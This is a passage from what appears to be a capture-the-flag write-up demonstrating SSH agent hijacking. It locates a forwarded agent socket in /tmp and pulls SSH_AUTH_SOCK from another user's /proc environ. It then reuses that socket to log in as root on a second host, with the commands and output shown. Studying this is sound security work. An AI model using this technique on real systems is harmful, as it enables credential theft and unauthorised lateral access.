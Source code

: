 

    root@kaneki-pc:/home/kaneki_pub# su kaneki_adm
    kaneki_adm@kaneki-pc:/home/kaneki_pub$ ssh root@172.18.0.1 -p 2222
    kaneki_adm@kaneki-pc:/home/kaneki_pub$ 



It didn't work.

### SSH Agent Hijacking

Imaging a situation where I want to ssh into box A, but my host can't
talk to A. I need to go through an intermediary, box B. But I don't want
to leave my private keys on B, for whatever reason. SSH Agent Forwarding
is set up to address this problem. It allows for keeping access to the
private key over a socket so I can authenticate to A.

[SSH Agent
Hijacking](https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/)
is exploiting SSH Agent Forwarding to ride that authentication.

If I watch right around the time the ssh connection comes in, I'll see a
file is created in `/tmp` (`<--` added by me):



    root@kaneki-pc:/home/kaneki_pub# find /tmp/
    /tmp/
    /tmp/ssh-FWSgs7xBNwzU
    /tmp/ssh-oomPLQAtpL
    /tmp/ssh-oomPLQAtpL/agent.646  <-- this
    /tmp/ssh-1Oo5P5JuouKm
    /tmp/sshd-stderr---supervisor-ICnHxt.log
    /tmp/sshd-stdout---supervisor-93vAhz.log
    /tmp/ssh-jDhFSu7EeAnz



That `agent.646` file is the socket for authentication. To perform a
hijack, I need to set the environment variable `SSH_SOCK_AUTH` to that
`agent` file, and then just ssh without a password. But the folder and
number will change on each connection, and it doesn't stay live for very
long at all.

I can pull this off manually if I'm fast, waiting for just the turn of
the minute, then get the `agent` file from kaneki_adm's environment
variables. Then I set the environment variable for myself, and ssh in. I
managed to do it:



    root@kaneki-pc:~# pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2) su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK
    SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773

    root@kaneki-pc:~# SSH_AUTH_SOCK=/tmp/ssh-KQVJ5LsSKq/agent.11773 ssh root@172.18.0.1 -p 2222
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
